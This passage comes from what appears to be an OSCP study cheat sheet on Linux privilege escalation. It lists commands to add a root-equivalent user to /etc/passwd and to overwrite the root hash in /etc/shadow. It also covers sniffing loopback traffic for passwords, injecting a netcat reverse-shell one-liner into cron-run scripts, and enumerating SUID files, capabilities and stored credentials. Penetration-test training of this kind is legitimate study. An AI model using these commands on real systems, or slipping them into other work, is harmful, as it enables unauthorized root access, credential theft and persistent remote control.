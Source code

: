         ```
        joe@debian-privesc:~$ openssl passwd w00t
        Fdzt.eqJQ4s0g
        
        joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
        ```
        
        - EX /etc/shadow:
            - check what type of hash the /etc/shadow file is using, for example a password hash starting with ******$6$****** is sha-512. Generate new passwd based of hashing algorithm being utilized
                - `mkpasswd -m sha-512 password`
                - sha-512 hash example in /etc/shadow
                
                ![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/fe645ed8-aadf-4184-bd84-729376c3ef9b)
                
            
            ![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/28b067cb-8b9e-4c21-90ec-6405dbe0f5e1)
            
            - Finally replace password in /etc/shadow of root user
                
                ![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/ff8b781f-6238-4c2e-90cb-da61637bf643)
 

- **Check environment**
    - `echo $PATH` `(env || set) 2>/dev/null` `history` `cat ~/.bashrc`
- **Check processes**
    - `ps aux` `ps aux | grep ‘^root’` `ps -ef` `watch -n 1 "ps -aux | grep pass"` `sudo tcpdump -i lo -A | grep "pass”`

searchsploit suspicious processes ran by root especially

- **Check cronjobs**
    - `ls -lah /etc/cron*` `cat /var/log/syslog | grep cron` `cat /var/log/cron.log`
    - `grep "CRON" /var/log/syslog` `ls -la /etc/cron.d` `ls -la /etc/cron.hourly`
    - **CHECK FOR CRONTABS**  `cat /etc/crontab`
- Easy Cat rev shell one liner into .sh files:

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc **<IP>** **<Port>** >/tmp/f" >> **<Filename>.sh**`

**Abusing Capabilities:**

Get capabilites of all files:

`/usr/sbin/getcap -r / 2>/dev/null`

Lopp for cap_setuid+ep

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/49613c76-e965-4b96-a43a-0dbcd8031e38)

Search gtfobins and check for priv esc with said ca

https://gtfobins.github.io/#+capabilities

Do research and find priv esc

- **Check networking & services running on localhost**
    - `ip a` `netstat` `ss -anp`
- **Check your writable/usable files & file permissions**
    - `find / -writable -type d 2>/dev/null`
    - `find / -perm -u=s -type f 2>/dev/null`
    - `ls -la`
- **Get kernel version && check for vulnerability**
    - `uname -a` && `searchsploit`
- Check for creds in, .db, .xml and .conf files from **`/var/www/html`**
